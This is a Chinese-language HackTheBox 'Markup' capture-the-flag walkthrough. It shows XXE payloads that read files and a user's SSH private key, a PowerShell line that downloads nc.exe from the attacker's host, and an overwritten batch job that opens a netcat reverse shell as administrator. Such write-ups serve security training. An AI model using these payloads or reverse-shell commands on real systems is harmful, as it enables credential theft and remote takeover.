

# 7x17 HTB系列——[Markup]XXE注入

## 一、信息收集

1. 端口扫描，开放了22、80、443端口，80、443端口开放有web服务，中间件为Apache 2.4.41，编程语言为PHP 7.2.28，OpenSSL 1.1.1c，服务器系统为Windows

   

2. 打开网站，直接就是一个登录页面

   

3. 尝试一下常见的弱口令，使用admin:password登录成功

   

4. 在Order栏中，发现一个表单

   

5. 看一看网页源代码，在注释中发现有用信息，像是一个用户名

   

6. BurpSuite抓包，熟悉的xml，有漏洞的话可能存在xxe注入，即xml外部实体注入

   

## 二、getshell

1. 修改数据包body为以下格式，重放数据包

   ```xml
   <?xml version="1.0"?>
   <!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/windows/win.ini'>]>
   <order>
   <quantity>
   2
   </quantity>
   <item>
   &test;
   </item>
   <address>
   17th Estate,CA
   </address>
   </order>
   ```

   

2. 服务器正常回显，爆出了几个字段，验证确实存在xxe注入，利用xxe尝试读取该用户的ssh密钥，成功读取到密钥文件

   ```xml
   <?xml version="1.0"?>
   <!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/users/daniel/.ssh/id_rsa'>]>
   <order>
   <quantity>
   2
   </quantity>
   <item>
   &test;
   </item>
   <address>
   17th Estate,CA
   </address>
   </order>
   ```

   

3. 将id_rsa保存到kali，然后通过该rsa对服务器进行ssh连接，成功获取shell

   

4. 在Desktop找到user.txt

   

## 三、权限提升

1. 查看当前用户权限

   ```shell
   whoami /priv
   ```

   

2. cd到C盘根目录下，查看有什么文件夹，发现有一个Log-Management文件夹，该文件夹中有一个job.bat批处理脚本

   

3. type查看job.bat文件内容，该脚本以管理员权限调用了一个叫做wevtutil.exe的程序，看起来像是清除日志的，我们可以尝试利用这个进行提权

   

4. 用icacls命令查看该批处理文件的权限，该脚本拥有system和Administrator权限

   

5. 要通过该脚本获取反向shell，只需要通过netcat在批量处理中创建有效负载文件即可，在kali上下载windows的netcat二进制文件，然后开启一个简单的web服务，在目标主机上通过powershell命令将nc.exe下载到传到目标主机上

   ```powershell
   Powershell -c "IWR -useBasicParsing http://10.10.16.9:8000/nc.exe -o
    nc.exe"
   ```

   

6. 然后在目标主机上通过netcat利用job.bat创建反向shell到kali上，kali开启nc监听

   ```powershell
   echo C:\Log-Management\nc.exe -e cmd.exe 10.10.16.9 4444 > C:\Log-Management\job.bat
   sudo nc lvnp 4444
   ```

   

7. 成功获取到管理员权限，在管理员桌面找到root.txt

   

